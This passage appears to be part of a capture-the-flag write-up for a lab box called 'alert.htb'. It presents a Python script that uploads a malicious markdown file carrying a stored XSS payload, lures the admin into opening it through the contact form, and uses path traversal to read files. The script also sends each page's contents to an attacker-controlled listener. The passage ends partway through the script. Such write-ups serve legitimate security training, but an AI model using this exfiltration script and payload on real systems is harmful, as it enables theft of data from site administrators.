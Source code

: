 There’s an unordered list with a link to a single message file. The URL for that link shows that the likely file path is passed via the `file` parameter on `messages.php`.

#### Script

I’m going to want to read a bunch more pages as the admin. While making a script to read a file is not necessary to solve the box, writing a quick Python script is a fun coding exercise. My script will:
- take in the page to read;
- construct the malcious markdown file;
- upload it, and get the link;
- send the link to the admin;
- read the XSS response;
- print the result.

The result is this script that takes a URL (or later updated to take just a file path after the next section) and reads via the XSS:

```

import requests
import re
import socket
import sys

if len(sys.argv) != 2:
    print(f"usage: {sys.argv[0]} <target url>")
    sys.exit()
target = sys.argv[1] if sys.argv[1].startswith('http') else f'http://alert.htb/messages.php?file=../../../../{sys.argv[1]}'

# generate markdown
markdown = f"""### load script
<script>
fetch('{target}')
.then(resp => resp.text())
.then(body => {{fetch("http://10.10.14.6/exfil", {{ method: "POST", body: body}});}})
</script>
"""

# upload markdown
files = {"file": ("payload.md", markdown)}
resp = requests.post("http://alert.htb/visualizer.php", files=files)

# get share link
m = re.search(r"http://alert\.htb/visualizer\.php\?link_share=.*\.md", resp.text)
if not m:
    print("error: share link not in page")
    sys.exit()
share_link = m.group()

# send link to admin
data = {"email": "0xdf@alert.htb", "message": f"Check out this link: {share_link}"}
resp = requests.post("http://alert.htb/contact.php", data=data)

# get XSS resp
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(("0.0.0.0", 80))
    sock.listen(1)
    conn, addr = sock.accept()
    with conn:
        req = b""
        while True:
            chunk = conn.recv(4096)
```